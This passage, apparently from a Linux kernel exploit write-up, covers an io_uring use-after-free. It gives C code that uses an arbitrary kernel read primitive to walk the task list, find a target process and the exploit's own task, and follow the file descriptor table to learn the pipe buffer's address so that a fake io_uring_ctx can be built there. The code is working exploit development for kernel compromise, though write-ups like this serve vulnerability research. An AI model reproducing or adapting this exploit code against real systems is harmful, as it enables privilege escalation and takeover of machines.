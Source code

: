 ```c
    uint64_t current = current_next - TASKS_NEXT_OFF;

    if (!task_valid(current))
    { 
        err("Invalid task after init: 0x%lx", current);    
    }

    // Read the comm
    read_comm_at(current + COMM_OFF, current_comm);
    //printf("    - Address: 0x%lx, Name: '%s'\n", current, current_comm);

    // While we don't have NULL, traverse the list
    while (task_valid(current))
    {
        current_next = read_8_at(current_next);
        current = current_next - TASKS_NEXT_OFF;

        if (current == g_init_task) { break; }

        // Read the comm
        read_comm_at(current + COMM_OFF, current_comm);
        //printf("    - Address: 0x%lx, Name: '%s'\n", current, current_comm);

        // If we find the target comm, save it
        if (!strcmp(current_comm, TARGET_TASK))
        {
            g_target_task = current;
        }

        // If we find our target comm, save it
        if (!strcmp(current_comm, OUR_TASK))
        {
            g_our_task = current;
        }
    }
}
```

You can also see that not only did we find our target task, we also found our own task in memory. This is important for the way I chose to exploit this bug because, remember that we need to fake a few objects in memory, like the `io_uring_ctx` for instance. Usually this done by crafting objects in the kernel heap and somehow discoverying their address with a leak. In my case, I have a whole pipe buffer which is 4096 bytes of memory to utilize. The only problem is, I have no idea where it is. But I do know that I have an open file descriptor to it, and I know that each task has a [file descriptor table](https://elixir.bootlin.com/linux/v5.19/source/include/linux/fdtable.h#L49) inside of its `files` member. After some time `printk` some offsets, I was able to traverse through my own task's file descriptor table and learn the address of my pipe buffer. This is because the pipe buffer page is obviously page aligned so I can just page align the address we read from the file descriptor table as the address of our UAF file. So now I know exactly in memory where my pipe buffer is, and I also know what offset onto that page our UAF `struct file` resides. I have a small helper function to set a "scratch space" region address as a global and then use that memory to set up our fake `io_uring_ctx`. You can see those functions here, first finding our pipe buffer address:
```c
void find_pipe_buf_addr(void)
{
    // Get the base of the files array
    uint64_t files_ptr = read_8_at(g_file_array);
    
    // Adjust the files_ptr to point to our fd in the array
    files_ptr += (sizeof(uint64_t) * g_uaf_fd);

    // Get the address of our UAF file struct
    uint64_t curr_file = read_8_at(files_ptr);

```